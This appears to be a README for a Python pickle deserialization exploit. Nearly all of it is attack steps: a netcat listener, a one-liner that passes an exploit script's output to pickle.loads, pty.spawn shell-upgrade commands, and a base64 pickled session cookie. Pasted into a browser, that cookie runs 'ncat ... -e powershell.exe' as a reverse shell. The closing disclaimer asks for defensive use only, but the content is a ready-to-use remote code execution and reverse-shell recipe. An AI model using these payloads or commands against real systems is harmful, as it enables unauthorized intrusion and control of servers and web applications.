 # Use wisely

In your terminal, run:
```
nc -nlvp 4444
```
Maybe "nc" doesn't work in your system and you should use "ncat"


In other computer run:
```
python3 -c "import pickle; pickle.loads($(python3 exploit.py))"
```
Note: Don't forget to change the host value

# Python 2
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

# Python 3
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

# exploit_rvs_web.py
In your terminal, run:
```
nc -nlvp 4444
```
Maybe "nc" doesn't work in your system and you should use "ncat"

Then run:
```
python3 exploit_rvs_web.py
```

And then in web console, paste it in cookies, like:
```
document.cookie = 'session=gASVQAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCVuY2F0IGxvY2FsaG9zdCA0NDQ0IC1lIHBvd2Vyc2hlbGwuZXhllIWUUpQu'
```

# Again:
Don't use it for malicious purposes, use it to make your system or your client's system more secure!